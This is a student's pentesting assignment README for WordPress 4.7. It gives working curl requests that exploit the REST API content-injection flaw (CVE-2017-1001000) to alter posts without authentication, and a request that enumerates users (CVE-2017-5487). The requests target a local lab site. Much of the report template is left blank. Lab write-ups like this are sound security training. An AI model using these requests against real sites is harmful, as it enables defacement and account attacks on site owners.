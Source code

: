 # codepath_7_jlw15
Codepath assignment 7

Wordpress version 4.7

1.  Privilage Escalation.  Using the REST api, a URL post request can bypass the authentcation check and allow a non-authenticated user to make changes to a post.

Valid request:  curl -X POST http://wpdistillery.dev/wp-json/wp/v2/posts/123?id=5 -d '{"content":"hcked content"}'
Expected output: Status 401

Invalid request: curl -X POST http://wpdistillery.dev/wp-json/wp/v2/posts/123?id=5abc -d '{"content":"hcked content"}'
By adding the string 'abc" to the end of the post id(5) and reqesting a post which doesnt exist(123), I now have access to change content.

2. https://www.cvedetails.com/cve/CVE-2017-5487/ An attacker can use the REST api to get a list of all users who have published an post, including username and userid, which then could be used in a brute force attack.
curl -X GET http://wpdistillery.dev/wp-json/wp/v2/users

# Project 7 - WordPress Pentesting

Time spent: **X** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) Vulnerability Name or ID
  - [ ] Summary: The register_routes function in wp-includes/rest-api/endpoints/class-wp-rest-posts-controller.php in the REST API in WordPress 4.7.x before 4.7.2 does not require an integer identifier, which allows remote attackers to modify arbitrary pages via a request for wp-json/wp/v2/posts followed by a numeric value and a non-numeric value, as demonstrated by the wp-json/wp/v2/posts/123?id=123helloworld URI.	
    - Vulnerability types:
    - Tested in version: 4.7
    - Fixed in version: 4.7.2
  - [x] GIF Walkthrough: ![](https://imgur.com/a/GsrEu)
  - [x] Steps to recreate: Privilage Escalation.  Using the REST api, a URL post request can bypass the authentcation check and allow a non-authenticated user to make changes to a post.

Valid request:  curl -X POST http://wpdistillery.dev/wp-json/wp/v2/posts/123?id=5 -d '{"content":"hcked content"}'
Expected output: Status 401

Invalid request: curl -X POST http://wpdistillery.dev/wp-json/wp/v2/posts/123?id=5abc -d '{"content":"hcked content"}'
By adding the string 'abc" to the end of the post id(5) and reqesting a post which doesnt exist(123), I now have access to change content.
  - [x] Affected source code: https://github.com/WordPress/WordPress/commit/e357195ce303017d517aff944644a7a1232926f7
    -[Link 1]https://www.cvedetails.com/cve/CVE-2017-1001000/ 
1. (Required)Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
